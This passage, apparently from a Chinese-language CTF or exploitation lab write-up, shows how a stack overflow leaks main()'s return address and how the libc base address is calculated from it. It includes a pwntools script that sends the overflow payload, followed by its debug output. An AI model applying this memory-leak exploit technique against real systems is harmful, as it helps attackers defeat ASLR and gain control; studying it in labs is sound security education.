 注意到 `0x7ffff7c29e40` （ 相对 `0x7ffff7c29d90` 是 `0xb0`）相对于 `__libc_start_main()` 的偏移值是 `0x80` (128) ，因此可以得到 `main()` 的返回地址相对于 `__libc_start_main()` 的偏移值是 `0x30` 。通过前面栈溢出得到 `main()` 的返回地址后，我们就可以得到`__libc_start_main()` 的实际地址。 



通过如下的 python 脚本，可以得到 libc 的地址：

```python
# Leaking libc address
__libc_start_main_offset = libc.symbols['__libc_start_main']
# pause()
conn.send(offset + b'AABBCCDDEEFFGGHH') #0x108 + 0x8 + 0x8 = 0x118
conn.recv(0x118)
received = conn.recvline() #后面一个 '\ninput> ' (printf的内容)
conn.recv(0x7)
received = received.strip(b'\n')
received = received.ljust(8, b'\0')
print(received)
# pause()
main_return_addr = u64(received)
log.info("waitwhat? " + hex(main_return_addr))

__libc_start_main_addr = main_return_addr + 0x30 
libc_addr = __libc_start_main_addr - __libc_start_main_offset
log.info("main_return_addr:      {:016X}".format(main_return_addr)) 
log.info("__libc_start_main_addr:{:016X}".format(__libc_start_main_addr)) 
log.info("libc_addr:             {:016X}".format(libc_addr)) 
```

运行效果如下：

---

<pre>[<font color="#C01C28"><b>DEBUG</b></font>] Sent 0x118 bytes:
    b&apos;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBCCDDEEFFGGHH&apos;
[<font color="#C01C28"><b>DEBUG</b></font>] Received 0x126 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA<font color="#12488B">│</font>AAAA<font color="#12488B">│</font>AAAA<font color="#12488B">│</font>AAAA│
    *
    00000100  41 41 41 41  41 41 41 41  41 41 42 42  43 43 44 44  │AAAA<font color="#12488B">│</font>AAAA<font color="#12488B">│</font>AABB<font color="#12488B">│</font>CCDD│
    00000110  45 45 46 46  47 47 48 48  <font color="#12488B">90</font> <font color="#12488B">9d</font> <font color="#12488B">c2</font> 42  38 77 <font color="#C01C28">0a</font> 69  │EEFF<font color="#12488B">│</font>GGHH<font color="#12488B">│···</font>B<font color="#12488B">│</font>8w<font color="#C01C28">·</font>i│
    00000120  6e 70 75 74  3e 20                                  │nput<font color="#12488B">│</font>&gt; │
    00000126
b&apos;\x90\x9d\xc2B8w\x00\x00&apos;
[<font color="#12488B"><b>*</b></font>] waitwhat? 0x773842c29d90
[<font color="#12488B"><b>*</b></font>] main_return_addr:      0000773842C29D90
[<font color="#12488B"><b>*</b></font>] __libc_start_main_addr:0000773842C29DC0
[<font color="#12488B"><b>*</b></font>] libc_addr:             0000773842C00000
</pre>
